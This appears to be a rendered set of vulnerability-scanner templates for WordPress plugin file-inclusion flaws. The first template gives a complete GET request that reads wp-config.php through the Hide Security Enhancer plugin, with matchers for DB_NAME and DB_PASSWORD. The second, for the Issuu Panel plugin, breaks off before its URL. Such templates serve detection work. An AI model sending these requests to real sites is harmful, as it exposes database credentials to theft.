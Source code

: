# WordPress Hide Security Enhancer 1.3.9.2 Local File Inclusion

## Description

- WordPress Hide Security Enhancer version 1.3.9.2 or less is susceptible to a local file inclusion vulnerability which could allow malicious visitors to download any file in the installation.
- severity - high
- tags - wordpress,wp-plugin,lfi,wp

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wp-hide-security-enhancer/router/file-process.php?action=style-clean&file_path=/wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---

# Wordpress Plugin Issuu Panel Remote/Local File Inclusion

## Description

- The WordPress Issuu Plugin includes an arbitrary file disclosure vulnerability that allows unauthenticated attackers to disclose the content of local and remote files.
- severity - high
- tags - wp-plugin,wordpress,lfi,rfi

## Requests

- Method - GET

### URL
